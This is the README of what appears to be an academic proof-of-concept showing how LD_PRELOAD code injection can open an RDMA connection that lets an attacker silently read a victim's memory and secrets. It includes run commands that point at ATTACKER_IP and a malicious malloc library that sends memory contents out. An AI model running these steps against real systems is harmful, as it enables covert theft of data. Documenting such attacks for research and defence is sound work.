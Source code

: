 # (A6) Facilitating Attacks using RDMA


The attack shows if an attacker has the privilege to preload a library to a victim’s application, the attacker can misuse this
ability to *inject code* that establishes an RDMA connection to the attacker’s application.
The attacker waits for a connection from the victim, and then the attacker silently reads the victim's secret using RDMA reads.


## Requirements
 * GCC >= 4.9 with C++11 features
 * rdma-core library, or equivalent RDMA verbs library 
 * RDMA-capable network devices must have assigned IP addresses
 * ODP-capable RDMA device for ODP usage

## Usage 

To compile the code simply run `make`. 
Note, to run the attack, we require manually edit `victim.cpp` to specify the IP address of the attacker application.

To perform an attack, the attacker should be lunched using `./attacker -a <IP>`, where `<IP>` is the IP address of the attacker.
Then the malware of the victim code should be modified to establish the connection with the provided IP address. 
For that, modify the IP address in `victim.cpp`:
```
  // should be IP and port of the attacker
  ret = rdma_getaddrinfo("192.168.1.10","9999", &hints, &addrinfo);
```
Then the victim can be launched (`./victim`) on any node within the same network as the attacker. The victim application will invite you to type a secret. The secret will be fetched by the attacker using RDMA reads. Note, that the malware uses predictability of malloc (V4).


Basic usage example
```
make
./attacker -a 192.168.1.10
./victim
```

## On-demand paging 
To use ODP capabilities, we require to manually modify the preload malware of the victim. 
For that, you should modify the following lines of `victim.cpp`:
```
 // change to true to use implicit ODP.
  bool useodp = false;
```

## LD_PRELOAD malloc attack

This attack should send all the allocated memory
information of an unmodified binary to an
attacker.

First run the attacker:
```
make
./attacker -a ATTACKER_IP
```

Then run the victim program with malicious malloc library:
```
make
LD_PRELOAD=./malmalloc.so cat secrete_file
```
